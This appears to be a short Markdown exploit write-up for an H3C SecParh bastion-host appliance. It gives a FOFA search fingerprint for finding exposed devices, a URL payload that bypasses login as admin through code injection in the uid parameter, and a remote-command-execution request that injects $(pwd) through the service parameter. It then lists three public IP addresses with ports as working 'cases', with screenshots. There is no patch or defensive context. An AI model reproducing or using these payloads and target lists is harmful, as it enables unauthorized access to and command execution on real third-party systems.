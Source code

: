 # H3C SecParh any user login + RCE

FOFA：

```
fid="0w8IgcaFysjYNRi1+ryGpw=="
```



Any user login POC：

```
/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin
```



RCE POC：

```
/audit/data_provider.php?ds_y=2019&ds_m=04&ds_d=02&ds_hour=09&ds_min40&server_cond=&service=$(pwd)&identity_cond=&query_type=all&format=json&browse=true
```



Case1：https://222.222.227.17:8888/

Any user login：

![image-20240308210826075](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240308210826075.png)

RCE：

![image-20240308210955564](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240308210955564.png)



Case2：https://60.6.239.18:10018/

Any user login：

![image-20240308211228547](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240308211228547.png)

RCE：

![image-20240308211306937](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240308211306937.png)





Case3：https://110.16.72.190:20443/

Any user login：

![image-20240308211354483](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240308211354483.png)

RCE：

![image-20240308211447078](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20240308211447078.png)